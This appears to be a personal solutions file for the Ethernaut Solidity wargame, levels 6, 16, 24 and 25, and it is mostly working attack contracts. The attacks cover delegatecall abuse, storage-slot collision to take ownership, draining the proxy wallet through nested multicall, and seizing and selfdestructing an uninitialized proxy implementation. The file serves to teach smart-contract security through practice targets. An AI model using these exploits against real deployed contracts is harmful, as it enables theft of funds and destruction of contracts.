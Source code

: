 ## Ethernaut6 
    -Send a transaction to Delegation, triggering the fallback() 
    -The data "0xdd365b8b" == "pwn()", so it will trigget the pwn() function in the Delegate contract
    and it will change the owner state variable of Delegation contract
`await contract.sendTransaction({from: player, to: instance, data: "0xdd365b8b"})`

## Ethernaut 16

    -From Preservation contrat we will call setFirstTime(uint _timeStamp) function
    -This function will do a delegatecall to contract Library{} which will update the slot#0 variable in Preservation contract
    -So we will change the slot#0 in Preservation for a new attacker contract
    -So the second time we call the setFirstTime(uint _timeStamp), it won't call the Library contract, it will call our attacker contract
    -and our attacker contract will update the slot#2 on Preservation contract which is the owner()
```
contract Attacker{
    //same layout of Preservation contract
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    Preservation public target;

    constructor(Preservation _address){
        target = _address;
    }

    //1st step, change the slot#0 in Preservation-->   address public timeZone1Library;
    function setTimeZone1LibraryToAttackerContract() public {
        uint256 _addressUint = uint160(address(this));
        target.setFirstTime(_addressUint);
    }

    //2nd step, create a function that will update the slot#2
    //it must have the same signature "setTime(uint _time)"
    function setTime(uint _time) public {
        owner = msg.sender;
    }

    //NOTE: Instead of calling the setFirstTime(uint) from remix
    //I sent a transaction from the console:
    //await contract.setFirstTime(123)
}
```

## Ethernaut 24

```
interface IWallet{
    function admin() external view returns(address);
    function proposeNewAdmin(address _newAdmin) external;
    function approveNewAdmin(address _expectedAdmin) external;
    function setMaxBalance(uint256 _maxBalance) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function multicall(bytes[] calldata data) external payable;
}
```

    //vulnerability: layout of state variables are different in the proxy and the implementation
    //1 --> proposeNewAdmin in the proxy to become a
    // PuzzleProxy --> "pendingAdmin" == slot#0 
    // PuzzleWallet --> "owner" == slot#0
    //2 --> after being the pendingAdmin, in the implementation we are the "owner".
    //3 --> call addToWhitelist() and put my address in the whitelist mapping
    //4 --> Create 2 arrays to call multicall() --> [deposit(), multicall([deposit()])]
    //5 --> call multicall() sending the array _dataToCall with msg.value 0.001
    //5 --> because we call deposit() twice, our balance[msg.sender] == 0.002
    //6 --> send to msg.sender the balance of the proxy (0.002 ether)
    //7 --> setMaxBalance() will modify (maxBalance) on the implementation (slot#1)
    //7 --> and (admin), slot#1 in proxy
    //7 --> so we need to pass our address as a uint256 to update the slot#1

```
contract Attack{
    //_target = "0xf4921938D75189dc103A9297ce3A00C549B625F5"    
 
    constructor(IWallet _target) payable {
        _target.proposeNewAdmin(address(this)); //1
        _target.addToWhitelist(address(this)); //2 & 3
        bytes[] memory _depositSignature = new bytes[](1);//4
        _depositSignature[0] = abi.encodeWithSignature("deposit()");//4
        bytes[] memory _dataToCall = new bytes[](2); //4
        _dataToCall[0] = _depositSignature[0]; //4
        _dataToCall[1] = abi.encodeWithSelector(_target.multicall.selector, _depositSignature); //4
        _target.multicall{value: 0.001 ether}(_dataToCall); //5
        _target.execute(msg.sender, 0.002 ether, ""); //6
        uint256 _myAddress = uint256(uint160(bytes20(msg.sender))); //7 parseWallet to uint
        _target.setMaxBalance(_myAddress); //7
        require(_target.admin() == msg.sender,"Failed hacking"); 
    }
}
```

## Ethernaut 25 (proxy of the proxy)

    1. We will use getStorageAt() to get the address of the implementation contract
`await web3.eth.getStorageAt(contract.address,"_IMPLEMENTATION_SLOT")` 
    
    2. which is: 0x000000000000000000000000fd93a2ff533d97cab416f23d1c80c95cfe0e5bef
    0xfd93a2ff533d97cab416f23d1c80c95cfe0e5bef

    3. attack the implementation contract:

```
contract Attack{

    function attack(address _target) public{
        bytes memory functionSign = abi.encodeWithSignature("initialize()");
        (bool success, ) = _target.call(functionSign);
        require(success);
        bytes memory calldestroy = abi.encodeWithSignature("destroy()");
        bytes memory upgradeSign = abi.encodeWithSignature("upgradeToAndCall(address,bytes)", address(this),calldestroy);
        (bool success2, ) = _target.call(upgradeSign);
        require(success2);
    }

    function destroy() public{
        selfdestruct(payable(address(0)));
    }
}
```